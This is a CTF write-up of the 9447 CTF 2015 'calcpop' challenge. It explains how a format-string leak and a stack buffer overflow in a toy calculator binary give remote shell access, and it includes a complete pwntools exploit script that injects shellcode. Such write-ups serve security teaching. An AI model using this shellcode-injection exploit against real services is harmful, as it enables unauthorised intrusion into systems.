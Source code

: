 ```yaml
---
layout: post
title: "9447ctf: calcpop"
author: f0rki
categories: writeup
tags: [cat/binary, tools/pwntools]
---
```


* **Category:** Exploitation
* **Points:** 80
* **Solves:** 174
* **Description:**

> See if you can pop *this* calc.
>
> Running at calcpop-4gh07blg.9447.plumbing port 9447
>
>
[calcpop.tar.gz](https://github.com/ctfs/write-ups-2015/raw/master/9447-ctf-2015/exploitation/calcpop/calcpop-42928687007cc7a92fc0ac6028cf8f64.tar.gz)  42928687007cc7a92fc0ac6028cf8f6


## Write-up

We can connect to the challenge and send it two numbers, which it will add for
us. If we send something without a space, it will tell us the address of
our input, because instead of `%s` there is a `%p` in the format string:

```
Missing a space; your input was %p\n
```

Such a nice a infoleak. After some poking around I found that it is a straight
forward stack based buffer overflow:

{% highlight bash %}
$ python -c 'import sys; sys.stdout.write("A"*256)' | nc calcpop-4gh07blg.9447.plumbing 9447
Welcome to calc.exe
Missing a space; your input was 0xff8b44d0
Missing a space; your input was 0xff8b44d0
timeout: the monitored command dumped core
/usr/local/bin/ctf_wrapper.sh: line 6: 13607 Segmentation fault      timeout 300 $1 $2
{% endhighlight %}

Also using checksec we can see that `NX` is disabled.

{% highlight bash %}
$ checksec --file calcpop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   calcpop
{% endhighlight %}

Yeah exploitation like it's the 90's. So we put shellcode on the stack and
overwrite the return address with the address we got from the infoleak. This is
pretty straightforward using a pwntools script.

The flag was: `9447{shELl_i5_easIEr_thaN_ca1c}`


{% highlight python %}
#!/usr/bin/env python

from pwn import *  # NOQA

context.arch = 'i386'

velf = ELF('./calcpop')

BUFFERSIZE = 128

shellcode = shellcraft.linux.sh()
log.info("using shellcode:\n" + shellcode)
shellcode = asm(shellcode)
nopslide = "\x90" * (BUFFERSIZE - len(shellcode))
payload = nopslide + shellcode

context.log_level = 'debug'

vp = remote('calcpop-4gh07blg.9447.plumbing', 9447)
#vp = process('./calcpop')
#gdb.attach(vp)

vp.recvline()
vp.sendline("")
s = vp.recvline().strip()
leakedaddr = s.split(" ")[-1]
leakedaddr = long(leakedaddr, 16)
log.info("leaked the addr " + hex(leakedaddr))

retaddr = leakedaddr + 20
log.info("trying return to " + hex(retaddr))

payload += (p32(retaddr)) * 10
#payload += (p32(0x41414141)) * 100

vp.sendline(payload)
vp.clean_and_log()
vp.sendline("exit")
vp.clean_and_log()
vp.sendline("pwd;ls;whoami;")
vp.clean_and_log()
vp.interactive()

{% endhighlight %}

